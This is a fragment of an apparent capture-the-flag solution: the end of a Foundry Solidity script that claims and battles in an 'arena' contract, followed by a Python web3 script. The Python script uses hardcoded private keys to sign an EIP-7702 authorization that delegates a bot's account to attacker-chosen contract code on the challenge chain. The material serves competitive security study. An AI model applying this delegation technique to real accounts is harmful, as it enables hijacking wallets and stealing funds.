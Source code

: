 ```solidity
            arena.claimPig();
            arena.claimPig();
            arena.claimPig();

            arena.requestBattle(address(chal), 5 ether);
        }

        vm.stopBroadcast();        

        // console.log("Solved?", chal.isSolved());
    }
}

```

```python
from web3 import Web3
from web3.auto import w3 as lw3
from eth_account import Account

rw3 = Web3(Web3.HTTPProvider("http://s1.r3.ret.sh.cn:30320/"))

botsk = "0x1bdfd8808d05ad060c35a35897d684d56c4767fe59316afc3356a6a0b85eccef"
mysk = "0x1c207c3a1fb67290046586a731b44ca2937b39eb116813ee153ba16c63e05d45"

agent_code_address = "0x9641a64880488Bd4962289bB49d75c9FbE15AeD5"
guy_code_address = "0x73ac7fA6406a052f2F1875f583AF9b53FCe1712a"

# myacc=lw3.eth.account.from_key(mysk)
# botacc=lw3.eth.account.from_key(botsk)
myacc = Account.from_key(mysk)
botacc = Account.from_key(botsk)

print("My address:", myacc.address)
print("Bot address:", botacc.address)

chain_id = rw3.eth.chain_id

step = 1

if step == 1:
    auth = {
        "chainId": chain_id,
        "address": agent_code_address,
        "nonce": rw3.eth.get_transaction_count(botacc.address),
    }
    signed_auth = botacc.sign_authorization(auth)

    tx = {
        "chainId": chain_id,
        "nonce": rw3.eth.get_transaction_count(myacc.address),
        "gas": 1_000_000,
        "maxFeePerGas": 10**10,
        "maxPriorityFeePerGas": 1,
        "to": myacc.address,
        "authorizationList": [signed_auth],
        "data": "",
        "type": 4
    }

    signed_tx = myacc.sign_transaction(tx)
    tx_hash = rw3.eth.send_raw_transaction(signed_tx.raw_transaction)
    print("Transaction sent, hash:", tx_hash.hex())
    tx_receipt = rw3.eth.wait_for_transaction_receipt(tx_hash)
```